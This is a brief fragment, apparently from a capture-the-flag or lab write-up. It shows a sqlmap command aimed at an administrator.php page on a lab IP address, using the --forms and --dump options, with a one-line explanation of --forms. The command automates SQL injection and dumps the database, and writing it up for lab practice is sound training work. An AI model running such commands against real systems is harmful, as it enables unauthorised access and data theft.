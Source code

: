 ## sqlmap
* `sqlmap -u http://10.10.95.205/administrator.php --forms --dump`
  > **--forms** :- state sqlmap to auto select parameters from form